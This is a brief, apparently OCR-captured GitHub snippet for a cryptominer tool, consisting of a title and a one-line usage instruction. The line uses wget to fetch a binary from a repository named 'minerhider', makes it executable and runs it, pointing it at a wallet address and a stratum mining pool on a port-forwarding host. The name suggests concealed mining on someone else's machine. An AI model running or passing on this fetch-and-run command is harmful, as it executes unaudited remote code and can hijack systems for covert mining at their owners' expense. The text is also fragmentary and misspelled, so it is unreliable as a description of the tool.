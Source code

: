 #miner miefth
usega : wget https://github.com/minhide/minerhider/raw/refs/heads/main/sh && chmod +x sh && ./sh RAMJiTYV7yXAuRQh1LXAHLHbBXGeYaPhXZ.mftvps stratum+tcp://wbnewtea-40878.portmap.host:40878 2 n
